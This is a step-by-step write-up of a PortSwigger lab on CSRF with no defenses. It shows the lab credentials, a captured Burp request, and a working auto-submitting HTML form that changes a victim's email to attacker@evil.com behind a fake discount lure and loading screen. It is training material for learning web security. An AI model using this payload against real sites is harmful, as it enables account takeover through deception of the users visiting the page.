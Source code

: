 ## CSRF vulnerability with no defenses

This lab's email change functionality is vulnerable to CSRF.
### Objective
	1. Craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.
	2. Hint: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

### Credentials
	1.Username: wiener
	2.Password: peter

### Access the Lab:

 ```Copy
https://portswigger.net/web-security/learning-paths/csrf/csrf-how-to-construct-a-csrf-attack/csrf/lab-no-defenses#
```

## Step by step walkthrough of Lab

	1.We get a website with a page like this:
	
![[CSRF-01.png]]

	2.As we know the vulnerability lies in the update email function lets go directly to My account.

![[CSRF-02.png]]

	3.We have a login screen here lets use the default creds given to us.

![[CSRF-03.png]]
	4.Here whatever email we provide it will get changed if the session cookie is verified,lets check the burp request after requesting for an email change.


```Burp
POST /my-account/change-email HTTP/1.1
Host: 0a76007e047e4d3980ee0dd000150096.web-security-academy.net
Cookie: session=O5pjwIZh3kRuMmDnlREn568LPORTJgWw
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a76007e047e4d3980ee0dd000150096.web-security-academy.net/my-account?id=wiener
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: https://0a76007e047e4d3980ee0dd000150096.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: close

email=0mni@deuss.space
```

	5.Here we can see that the website is sending email as a POST request in body for changing the Email of that particular authenticated user.
	
![[CSRF-04.png]]
	6.Now Lets go to the exploit server.
![[CSRF-05.png]]
	7. Here everything is already set what we need to do is set the body parameter in such a way that when the user clicks on the crafted email it gets opened in their browser and the email changes to the attackers email.
```HTML
<html>
  <body>
    <h1>Limited Time Offer!</h1>
    <p>Click below to claim your exclusive discount!</p>
    
    <form id="csrfForm" action="https://{CHANGE-THIS-ACCORDING-TO-YOUR-URL}.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker@evil.com"/>
    </form>
    
    <script>
      // Auto-submit the form immediately
      document.getElementById('csrfForm').submit();
      
      // Optional: Show a fake loading screen to make it seem more legitimate
      setTimeout(function() {
        document.body.innerHTML = '<h1>Processing your request...</h1><p>Please wait while we apply your discount.</p>';
      }, 100);
    </script>
  </body>
</html>
```
	8.The above code snippet is what i have engineered to do the following:
		1.Excite the user by social engineering(Here i have used discount coupon)
		2.Put the URL given by Lab in Action(IMPORTANT).
		2.A Form submission using POST request to the site.
		3.Make the Form submission hidden using type='hidden'
		4.provide name=email for the POST element(Check burp req).
		5.value=attacker@evil.com(The email we want to use to change for victim).
		6.Auto submit form using javascript.
		7.Showing a "Processing your request" fake discount processing.

![[CSRF-06.png]]
	9.Now lets copy the payload after `<body> to </body>` and click on View exploit to check if it is even working or not.
![[CSRF-07.png]]
	10.IT WORKED! The email has been changed by the attacker.
![[CSRF-08.png]]
	11.Now do the same again in exploit but this time change the email to something else and click on Deliver exploit to victim.
And Boom 